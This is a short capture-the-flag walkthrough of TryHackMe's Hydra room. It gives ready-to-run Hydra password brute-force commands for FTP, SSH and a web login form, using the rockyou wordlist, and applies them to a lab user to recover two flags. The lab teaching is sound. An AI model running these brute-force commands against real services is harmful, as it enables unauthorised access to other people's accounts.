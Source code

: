 ```yaml
---
title: "Hydra - TryHackMe"
author: krishna
description: "Walkthrough of Hydra from TryHackMe"
date: 2020-10-16 22:22:22 +0530
categories: [security, tryhackme]
tags: [writeup]
---
```


**[Hydra from TryHackMe](https://tryhackme.com/room/hydra)**

## Task 1 - Hydra Introduction

uses and installation

## Task 2 - Using Hydra

* **ftp bruteforcing :** `hydra -l user -P passlist.txt ftp://$MACHINE_IP`

* **ssh bruteforcing :** `hydra -l <username> -P <full path to pass> $MACHINE_IP -t 4 ssh`

* **POST web form :** `hydra -l <username> -P <wordlist> $MACHINE_IP http-post-form "/<loginURL>:username=^USER^&password=^PASS^:F=incorrect" -V`

for the wordlists, i used ***rockyou.txt***. in kali, it is present in `/usr/share/wordlists/rockyou.txt.gz`.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

	it is given that the username is molly. therefore, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

	![bruteforcing the login page](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/hydra/hydra1.png)

	the ***flag*** then appears with some disney background idk xD

	![getting the flag](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/hydra/hydra2.png)

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

	continuing, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP -t 4 ssh`

	then after ssh-ing into molly's system using the password, the ***flag*** is present in `flag2.txt` right in the home directory

	![the bruteforce, the access and the flag](https://raw.githubusercontent.com/lordlabuckdas/lordlabuckdas.github.io/gh-pages/assets/img/tryhackme/hydra/hydra3.png)

real nice room.
